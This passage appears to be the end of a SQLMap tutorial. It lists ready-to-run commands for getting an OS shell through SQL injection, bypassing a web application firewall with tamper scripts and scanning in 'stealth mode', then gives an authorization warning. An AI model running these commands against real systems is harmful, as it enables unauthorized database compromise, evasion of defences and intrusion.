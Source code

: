```bash
sqlmap -u "target" --os-shell

# WAF bypass
sqlmap -u "target" --tamper=space2comment,randomcase

# Stealth mode
sqlmap -u "target" --random-agent --delay=3 --technique=T
```

---

<div class="notice--warning">
  <h4>🚨 Critical Security Warning</h4>
  <p>SQLMap is an extremely powerful tool that can extract sensitive data, modify databases, and compromise entire systems. Only use it on systems you own or have explicit authorization to test. Unauthorized use is illegal and unethical.</p>
</div>

---

*SQLMap is an essential tool for database security testing. Use it responsibly to help organizations identify and fix SQL injection vulnerabilities before malicious attackers can exploit them.*